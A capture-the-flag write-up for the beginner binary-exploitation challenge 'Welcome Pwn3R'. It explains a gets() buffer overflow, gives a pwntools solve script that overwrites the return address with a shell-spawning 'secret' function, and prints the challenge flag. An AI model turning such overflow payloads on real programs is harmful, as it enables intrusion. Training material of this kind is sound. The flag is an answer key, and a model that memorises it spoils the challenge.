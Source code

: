 # Welcome Pwn3R

**`Author:`** [LaidMalik](https://github.com/malikDaCoda)

## Description

> Welcome Pwn3R!! We have prepared this challenge to warm you up for what's coming next ;)

## Write-up

### Brief Summary

- `gets` function is used --> buffer overflow
- there is a `secret` function, after analyzing it we understand it makes an `execve` syscall to open a shell: `execve(filename="/bin/sh", argv=0, envp=0)`
- overflow the buffer to overwrite the return address with the `secret` function's address
- pop a shell :)

### TODO

### Solve script

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge/welcome")

HOST, PORT = "localhost", 1337

context.binary = elf
context.terminal = ["tmux", "splitw", "-h", "-p", "75"]

def main():
    global io

    # offset from return address
    offset = 0x48

    io = conn()

    io.recvuntil(": ")
    payload = flat(
        b'A'*offset,
        elf.sym.secret
    )
    io.sendline(payload)

    io.interactive()

def conn():
    global libc
    gdbscript = '''
    '''
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        p = process([elf.path])
        if args.GDB:
            gdb.attach(p, gdbscript=gdbscript)
        return p

if __name__ == "__main__":
    io = None
    try:
        main()
    finally:
        if io:
            io.close()

```

### Flag

`shellmates{g000d_s7@rt_Pwn3R_U_c4n_c0Nt1Nu3!!}`
